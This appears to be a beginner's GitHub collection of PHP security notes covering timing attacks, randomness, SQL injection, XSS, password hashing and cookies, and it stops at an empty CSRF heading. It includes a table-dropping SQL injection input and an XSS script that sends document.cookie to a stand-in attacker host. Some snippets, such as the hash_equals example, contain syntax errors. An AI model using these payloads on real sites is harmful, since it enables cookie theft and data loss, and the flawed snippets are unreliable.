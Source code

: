 ### PHP security collection
I am not an expert, just somemone who collects security vulnerabilities!

#### Genral links
https://github.com/paragonie/awesome-appsec#php

https://www.udemy.com/course/php-security/

#### Timing attack

String compare operators return immediately if the length is not the same:
So you could see if one length takes longer than other, based on that you can get the length. The string compare operator return immediately if the a character is wrong, so based on that: you can get the character that takes the longest and that this is the right character.

```
if ($_POST["password"] !== "Password") {
    return false;
}
```
Even if the time difference is so little and ther is network jitter: why risk it. Use hash_equals($known_string, $user_string), which doesnt leak time difference (only for getting the length).
```
if (hash_equals("Password", $_POST["password"]) {
    return true;
}
```

[Link on topic](https://blog.ircmaxell.com/2014/11/its-all-about-time.html)

#### Insufficient Randomness

Dont use mt_rand() . Use one of the following:

* RandomLib
* random_bytes($length) (PHP 7, or available in PHP 5 via random_compat)
* Raw bytes read from /dev/urandom
* mcrypt_create_iv($length, MCRYPT_DEV_URANDOM);
* openssl_random_pseudo_bytes($length);

```
$token = bin2hex(openssl_random_pseudo_bytes($length));
```

[Link on topic](https://paragonie.com/blog/2015/04/secure-authentication-php-with-long-term-persistence)

#### SQL injection
```
$userQuery = $con->query("SELECT * FROM users WHERE email = '$email' ");
```

If user input is:
''; DROP TABLE posts; --
This will drop the table posts.

To avoid this, use prepare statement.
```
$userQuery = $con->prepare("SELECT * FROM users WHERE email = :email");
$userQuery->execute([
    'email' => $email
]);
```
[PDO tutorial](https://phpdelusions.net/pdo)

#### PHP ini

```
display_errors=Off ;hides possible data leaks
```

#### Cross-site scripting (XSS)
XSS is an injection attack. If you have some type of form, that uploads data and try to show this data as html code, you can insert javascript. For example: you can commit a comment and you show this comment as html, you can insert into the comment javscript: which will, when inserted, be ecexuted. You could insert this "harmless" code:
```
<script>
window.alert("Hello i am inserted")
</script>
```
To see how dangerous XSS is, look at that:
```
<script>
window.location = "http://hacker.com/hack.php?cookie=" + escape(document.cookie)
</script>
```
See, you can steal cookies: which can have eccess tokens.

When insert text with javascript use instead of innerHTML, textContent. When echo in php fetch the echo content out of htmlspecialchars($_POST["body"]).
```
echo htmlspecialchars($_POST["body"]);
```

When insert text with javascript use instead of innerHTML, textContent.

#### Password hashing
Dont use md5 hashing. It is easily crackable.
```
md5($_POST["password"]) //dont do this
```
Use password_hash($password).
```
password_hash($password, PASSWORD_DEFAULT) // this hashes the password
```
[Password hash manual](https://www.php.net/manual/de/function.password-hash.php) <br>
Use password_verify to verify the password.
```
$result = password_verify($password, $hash);
```
#### Hiding directories
To hide directories create in the a .htacess file, in the directorie and then it cant be eccessed. Put this in there.
```
Options -Indexes
```
#### Http only cookie
```
setcookie("token", $tokenCookie, NULL, "/", NULL, TRUE, TRUE);
```
The last true sets the cookie to http only. Makes it not eccessable from javascript.

#### Cross-Site Request Forgery (CSRG)
